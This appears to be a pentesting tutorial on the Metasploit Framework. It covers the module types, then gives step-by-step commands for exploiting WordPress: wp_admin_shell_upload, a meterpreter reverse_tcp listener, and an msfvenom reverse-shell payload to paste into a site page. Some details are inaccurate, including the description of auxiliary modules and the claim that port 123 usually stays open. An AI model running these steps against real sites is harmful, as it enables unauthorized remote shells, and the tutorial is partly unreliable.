 # Metasploit Framework Explained

Metasploit is a very famous tool to use exploits.

## Some explanation of the modules

In professional pentesting we won't be creating our own exploits. That is very rare.
The industry uses that framework because each exploit available has been tested and known to be sure.
It could be risky to use any public code.

To access the modules we go to this path in kali

```bash
cd /usr/share/metasploit-framework/modules
```

`auxiliary encoders evasion exploits nops payloads post`

What we take advantage of, the breach, is called an exploit.
We use an `exploit` to run a `payload`.

Auxiliaries are the most important part after the `payload`.
The `auxiliary` will be triggered once we are inside the server.

`Post` are tools that we use after the `payload`, like a keylogger.
`Encoders` help to hide your malicious code.

The `payloads` come in two versions: `singles` and `stagers`.
When sending your `payload`, will you send it in one or multiple shots ?

Sometimes `stagers` won't work, the access could die within a second.
This means that you have to send it in one shot (`singles` )

## Using metasploit

To start metasploit, we have to write this keyword.

```bash
msfconsole
```

This launches the metasploit console.
There are authenticated and non-authenticated exploits.

## Wordpress exploits

```bash
search type:exploit wordpress
```

That gives us a list of wordpress exploits.
Each on got an id number, a name, a disclosure date, a rank and a description.
If the check column has a Yes, it means that you can check if the website is vulnerable to this exploit.

```bash
use exploit/unix/webapp/wp_admin_shell_upload
```

By writing `info` that gives you more information.
That says that there are a few information that are required, such as the username, password and host.

```bash
SET USERNAME username
SET PASSWORD password
SET RHOSTS url
```

Once it is set with the info, we run it.

```bash
exploit
```

That sends it to the stages and the meterpreter opens itself. This is the type of payload.
Meterpreter is a very powerful tool.

```bash
help
```

This is a wordpress website running on php. Php meterpreter is the weakest.

## Multi handler

```bash
use multi/handler
```

This is the part of the framework that listens to a connexion.

```bash
set payload php/meterpreter/reverse_tcp
show options
```

In this payload there are two options.
LHOST and LPORT.

```bash
set LPORT 123
set LHOST 0.0.0.0
run
```

We are now listening on port 123.
The 123 port is the one we use to get publicly available time servers. It usually stays opened.
We always set LHOST to be 0.0.0.0, this is a wildcard. Everything will get accepted.

Now let's create a payload with msfvenom.
On another terminal tab:

```bash
msfvenom -p php/meterpreter/reverse_tcp LPORT=123 LHOST=10.0.100.9 -f raw
```

To launch the code we get from this command line, we'll paste it into a wordpress page and visit it.
